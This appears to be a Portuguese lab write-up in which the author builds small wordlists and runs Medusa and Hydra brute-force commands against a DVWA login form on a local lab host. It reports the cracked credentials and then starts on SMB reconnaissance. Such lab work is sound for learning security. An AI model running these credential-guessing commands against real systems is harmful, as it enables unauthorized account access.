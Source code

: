 Criação da lista de usuários:
```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
```

Criação da lista de senhas:
```bash
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

### Ataque de força bruta no formulário de Login

Nesta etapa utilizaremos o `Medusa` para atacar a aplicação web utilizando as wordlists criadas. Para esse ataque é usado os campos do reconhecimento do formulário com a ajuda do `DevTools`. Com todas essa informações podemos seguir para o comando:

```bash
medusa -h 192.168.56.4 -U users.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 6
```

---

<img width="1341" height="550" alt="image" src="https://github.com/user-attachments/assets/e304d96c-d4d2-470c-a7fc-499db9a7b566" />

---

**Utilizando a ferramenta Hydra**

Essa é outra ferramenta poderosa de brute force, com ela podemos utilizar as flags passando as wordlists e o formulário da aplicação. Veja abaixo o comando e o resultado com o hydra.

Comando:
```bash
hydra -L users.txt -P pass.txt 192.168.56.4 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V
```

<img width="685" height="497" alt="image" src="https://github.com/user-attachments/assets/5e369eee-21fe-48d0-bdb1-9a1a2bc63969" />

---

O usuário e senha encontrados foram, admin e password.

## Ataque ao serviço smb (samba)

O serviço smb são ciomumente utilizados para o compartilhamento de arquivos, impressoras e outros recursos entre computadores em uma rede local.

### Reconhecimento do serviço smb na rede

Para identificarmos que o serviço smb está ativo na rede, vamos utilizar a flag `-p` do nmap e passar a porta `445`. Segue o comando abaixo.
